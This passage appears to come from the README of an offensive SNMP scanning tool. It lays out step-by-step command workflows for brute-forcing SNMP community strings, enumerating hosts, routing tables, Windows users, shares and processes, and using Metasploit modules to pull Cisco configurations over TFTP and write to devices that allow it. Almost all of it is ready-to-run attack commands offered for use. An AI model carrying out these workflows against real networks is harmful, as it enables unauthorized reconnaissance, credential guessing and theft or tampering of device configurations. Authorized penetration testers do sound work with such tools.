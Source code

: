 ### Workflow 2: Network Mapping
```bash
# 1. Find SNMP devices
./snmpseek.py --full 10.0.0.0/24

# 2. Extract all IPs
for ip in $(cut -d: -f1 snmplist.txt); do
    snmpwalk -v2c -c public $ip ipAdEntAddr
done

# 3. Extract routing tables
snmpwalk -v2c -c public 192.168.1.1 ipRouteNextHop
```

### Workflow 3: Cisco Exploitation
```bash
# 1. Find Cisco devices
./snmpseek.py --bruteforce -f cisco_devices.txt

# 2. Check for write access
grep "WRITE" snmp_creds.txt

# 3. Extract config via TFTP (Metasploit)
msfconsole
use auxiliary/scanner/snmp/cisco_config_tftp
set COMMUNITY private
set RHOST 192.168.1.1
run
```

### Workflow 4: Windows Enumeration
```bash
# 1. Find Windows SNMP
./snmpseek.py --bruteforce -f windows_servers.txt

# 2. Extract users
snmpwalk -v2c -c public 192.168.1.50 1.3.6.1.4.1.77.1.2.25

# 3. Extract shares
snmpwalk -v2c -c public 192.168.1.50 1.3.6.1.4.1.77.1.4.2

# 4. Extract processes
snmpwalk -v2c -c public 192.168.1.50 1.3.6.1.2.1.25.4.2.1.2
```

## Integration Examples

### With Metasploit
```bash
# 1. Discover with SNMPSeek
./snmpseek.py --bruteforce 192.168.1.0/24

# 2. Import to MSF
msfconsole
use auxiliary/scanner/snmp/snmp_enum
set COMMUNITY public
set RHOSTS file:snmplist.txt
run

# 3. Exploit writable
use auxiliary/scanner/snmp/snmp_set
set COMMUNITY private
set RHOSTS 192.168.1.10
```